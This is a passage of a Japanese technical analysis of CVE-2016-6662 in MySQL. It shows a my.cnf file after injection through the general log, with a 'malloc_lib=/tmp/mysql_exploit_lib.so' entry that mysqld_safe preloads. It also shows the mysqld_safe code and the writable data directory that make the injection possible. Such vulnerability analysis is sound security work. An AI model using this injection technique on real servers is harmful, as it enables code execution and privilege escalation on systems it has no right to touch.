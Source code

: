  * 注入後の/etc/my.cnf

```
root@CVE-2016-6662:~# ls -l /etc/my.cnf
-rw------- 1 mysql mysql 422  9月 13 17:33 /etc/my.cnf
root@CVE-2016-6662:~# cat /etc/my.cnf
[mysqld]

key_buffer              = 16M
max_allowed_packet      = 16M
/usr/sbin/mysqld, Version: 5.5.50-0+deb8u1 ((Debian)). started with:
Tcp port: 3306  Unix socket: /var/run/mysqld/mysqld.sock
Time                 Id Command    Argument
160913 17:33:16    37 Query     select '

; injected config entry

[mysqld]
malloc_lib=/tmp/mysql_exploit_lib.so

[separator]

'
160913 17:33:42    37 Query     set global general_log = off
```

この設定ファイルには有効ではない記述が含まれているため、mysqlの起動に失敗します。
しかし重要なのは以下の設定がmy.cnfに含まれていることです。

```
[mysqld]
malloc_lib=/tmp/mysql_exploit_lib.so
```

mysqldデーモンの起動前に、mysqld_safeが正しく共有ライブラリパスを読み込んでLD_PRELOAD環境変数に追加します。 プリロードされたライブラリは、その後のlibcのfopen()の呼び出しをフックし、mysqldデーモンによって処理され設定前に起動します。

## MySQLデータディレクトリ(デフォルトで書き込み可能になっている)に新たな設定ファイルの作成することができる。

mysqld_safeにはmysql data direcotoryに配置されたmy.cnfを読み込みパスに追加するためのコードが存在します。

```
   418  # Try where the binary installs put it
   419  if test -d $MY_BASEDIR_VERSION/data/mysql
   420  then
   421    DATADIR=$MY_BASEDIR_VERSION/data
   422    if test -z "$defaults" -a -r "$DATADIR/my.cnf"
   423    then
   424      defaults="--defaults-extra-file=$DATADIR/my.cnf"
   425    fi
```

データディレクトリの/var/lib/mysqlはmysqlユーザによって明らかに書き込みが可能です。

```
root@CVE-2016-6662:~# ls -ld /var/lib/mysql
drwx------ 5 mysql mysql 4096  9月 13 17:48 /var/lib/mysql
```
